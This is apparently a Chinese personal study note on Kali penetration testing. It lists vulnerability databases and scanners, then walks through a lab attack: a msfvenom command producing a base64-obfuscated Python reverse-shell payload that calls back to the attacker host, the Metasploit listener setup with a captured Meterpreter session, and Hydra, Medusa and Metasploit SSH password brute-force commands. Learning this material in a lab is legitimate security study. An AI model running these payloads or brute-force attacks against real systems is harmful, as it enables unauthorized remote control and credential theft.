





===========================
Kali漏洞分析利用
===========================

.. post:: 2023-02-27 21:24:23
  :tags: 学习记录
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn

经过 :doc:`/docs/安全/学习记录/Kali信息收集` 收集到的资产

- 联系人、联系方式
- 域名和子域名
- IP、端口信息
- 操作系统、应用程序、框架、数据库、版本信息
- 网站文件（目录扫描）
- 搜索引擎和网络空间测绘收集到的信息
- ...

漏洞数据库
===========================

CVE (Common Vulnerabilities & ExposUres ） (通用漏洞共享平台)::

  https://cve.mitre.org/
  https://www.cvedetails.com/
  https://www.cnvd.org/cn/
  https://nox.qianxin.com/vulnerability

国内的::

  # 国家
  https://www.cnvd.org.cn/

  # 奇安信
  https://ti.qianxin.com/
  https://ti.qianxin.com/vulnerability/

一般漏洞编号::

  CVE + 年份 + 编号

如::

  CVE-2004-1137

漏洞利用工具集
===========================

- POC: Proof Of Concept(观念验证)
- EXP: Exploit 利用(漏洞利用)

可用漏洞利用网站::

  https://www.exploit-db.com/

相关指令:
  - :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole` 的 searchsploit
  - pocsuite

.. note::

  如果自己要做一个漏洞搜集的汇总网站, 可以github搜索: pocsuite

  .. figure:: ../../../resources/images/2024-02-25-21-14-34.png
    :width: 480px

  提供了一个基础的框架

漏洞扫描工具
===========================

商业漏洞扫描工具
  - Appscan
  - Nessus
  - OpenVAS
  - ...

免费的
  - goby (红队是收费版)
  - Burp
  - https://github.com/k8gege/Ladon

国产的

.. note::

  一般不允许使用漏洞扫描工具扫描线上服务,
  因为会建立大量请求, 说不定就直接把你封了(同ip大量请求)

  一般就内部未上线的用下

msf反弹连接
===========================

msf使用见 :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole`

实例

生成payload, 指令详见 :doc:`/docs/安全/kali/msf/msfvenom`,
生成一个python版本的payload::

  # msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
  # LHOST=攻击机IP    一般为自己本机ip(本机就是攻击机)
  # LPORT=攻击机端口  随便
  msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py

攻击机生成payload
---------------------------

攻击机生成::

  ┌──(kali㉿kali)-[~/test]
  └─$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.186.133 LPORT=8889 -f raw -o payload.py
  /usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
  ...

  ┌──(kali㉿kali)-[~/test]
  └─$

  ┌──(kali㉿kali)-[~/test]
  └─$ cat payload.py
  exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMTg2LjEzMycsODg4OSkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoemxpYi5kZWNvbXByZXNzKGJhc2U2NC5iNjRkZWNvZGUoZCkpLHsncyc6c30pCg==')[0]))

将payload传递到靶机
---------------------------

利用漏洞将生成的 `payload.py` 上传到目标机器

攻击机使用msf监听
---------------------------

指令::

  # 进入msf控制台
  msfconsole

  # 使用监听模块
  use exploit/multi/handler

  # 设置payload类型 注意跟上面生成时使用的模块要一致
  set payload python/meterpreter/reverse_tcp
  set lhost 攻击机IP
  set lport 攻击机端口
  exploit

实例::

  msf6 > use exploit/multi/handler
  [*] Using configured payload generic/shell_reverse_tcp
  msf6 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  msf6 exploit(multi/handler) > set lhost 192.168.186.133
  lhost => 192.168.186.133
  msf6 exploit(multi/handler) > set lport 8889
  lport => 8889
  msf6 exploit(multi/handler) >
  msf6 exploit(multi/handler) > exploit

  [*] Started reverse TCP handler on 192.168.186.133:8889

当靶机触发payload时候::

  [*] Sending stage (40168 bytes) to 192.168.186.129
  [*] Meterpreter session 1 opened (192.168.186.133:8889 -> 192.168.186.129:53686) at 2024-02-25 21:56:55 +0800

  meterpreter >

即获取到 `192.168.186.129` 的反弹shell

执行个 dir 指令::

  meterpreter > dir
  Listing: D:\Project\DevTools\phpStudy_64\phpstudy_pro\WWW\test
  ==============================================================

  Mode              Size  Type  Last modified            Name
  ----              ----  ----  -------------            ----
  100666/rw-rw-rw-  503   fil   2024-02-25 21:53:44 +08  pl.py
                                00

  meterpreter >

Burp Suite爆破web密码
===========================

bp拦截成功后将其转入 **Intruder**

然后选择 **Sniper** (狙击手) 模式即可

设置好 Payload 后点击 **Start attack** 开始攻击

  效果

可以看出当密码正确时候, 响应长度可以作为判断是否成功标志(还是得看情况)

Hydra爆破Linux密码
===========================

相关指令:
  - :doc:`/docs/安全/kali/kali渗透专用指令/hydra`
  - :doc:`/docs/安全/kali/kali渗透专用指令/medusa`
  - :doc:`/docs/安全/kali/kali渗透专用指令/msfconsole`

三种工具::

  hydra -L username.txt -P password.txt 192.168.142.66 ssh

  medusa -M ssh -h 192.168.142.66 -u root -P password.txt

  msfconsole
  use auxiliary/scanner/ssh/ssh_login
  set RHOSTS 192.168.142.66
  set PASS_FILE password.txt
  set USER_FILE username.txt
  exploit

sqlmap渗透
===========================

工具 :doc:`/docs/安全/kali/kali渗透专用指令/sqlmap`

